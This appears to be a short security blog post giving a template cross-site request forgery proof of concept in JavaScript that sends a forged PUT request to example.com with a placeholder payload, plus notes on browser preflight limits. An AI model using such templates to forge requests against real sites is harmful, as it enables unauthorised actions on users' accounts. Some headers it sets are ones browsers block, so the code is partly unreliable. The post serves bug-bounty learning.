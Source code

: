 ```yaml
---
layout: post
title: XHR CSRF PoC 
published: true
categories: [Research, BugBounty]
excerpt: This is just some sample code for when creating an XHR CSRF PoC. It is used for my self learning purposes and work sometimes.
---
```


This is just some sample code for when creating an XHR CSRF PoC.    
It is used for my self learning purposes and work sometimes.

---

# XHR CSRF PoC

This is just some sample code for when creating an XHR CSRF PoC.    
It is used for my self learning purposes and work sometimes.


  
```html
<script>
function getMe() {
var http;
http = new XMLHttpRequest();
var url = "http://example.com";
http.open("PUT", url, false);
//http.setRequestHeader('Access-Control-Request-Meethod','POST');
//http.setRequestHeader('Access-Control-Request-Meethod','content-type');
http.setRequestHeader('Content-Type','application/json');
http.setRequestHeader('Referer',url);
http.setRequestHeader('Content-Length','33');
http.onreadystatechange = function()
{
	if(http.readyState == 2)
		{var response = http.responseText;
		document.getElementById('result').innerHTML = response;
	}
}
http.send(`Your payload here`);
}

getMe();
</script>

<html>
<div id='result'></div>
</html>
```

Sadly modern browsers nowadays will send an OPTIONS request first to check for XHR, and it is not possible to modify the Origin in the request - it will be set to null.

However, this may be still useful for some basic Web challenges and maybe bug bounty.

Ref: [AJAX in Chrome sending OPTIONS instead of GET/POST/PUT/DELETE?](https://stackoverflow.com/q/21783079/4420129)